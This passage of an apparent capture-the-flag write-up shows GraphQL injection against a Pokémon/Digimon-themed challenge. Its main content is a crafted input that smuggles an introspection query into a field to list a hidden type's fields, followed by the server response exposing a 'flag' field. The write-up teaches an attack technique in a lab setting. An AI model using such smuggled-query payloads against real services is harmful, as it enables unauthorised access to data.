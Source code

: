 As we can see, query `digimOwOUwURawrn38408375018458385023841203489738570123` has 2 arguments, which are `passcode` and `name`.

Wait, `passcode`? In the challenge's description, it says the passcode is **`dish-percent-drop-brief`**, and **`Flagmon`** has the flag.

## Exploitation

Armed with the above information, we can try to query `digimOwOUwURawrn38408375018458385023841203489738570123` with argument `passcode` and `name`.

But before we do that, we need to know the return object type `Digimon0x000141a0`'s fields.

**Query object type `Digimon0x000141a0`'s fields:**
```json
{
  "pokemons": [
    "anything\"){id},injected_query:__type(name:\"Digimon0x000141a0\"){name,fields{name}}}#"
  ],
  "compares": []
}
```

**Response:**
```json
{
  "data": {
    [...]
    "injected_query": {
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "name"
        },
        {
          "name": "level"
        },
        {
          "name": "type"
        },
        {
          "name": "attribute"
        },
        {
          "name": "description"
        },
        {
          "name": "flag"
        },
        {
          "name": "tokenf0e4c2f76c58916ec258f246851bea091d14d4247a2fc3e18694461b1816e13b"
        },
        {
          "name": "tokend743cb4b22397cf64e0117fd83d29ca1e059c698b8155a3771417e24458e2bb5"
        },
        {
          "name": "tokenb20e3fc8e392aeae90db75a40648ad4aa87d13830ef9eb80343b960130ec2d3e"
        }
      ],
      "name": "Digimon0x000141a0"
    }
  }
}
```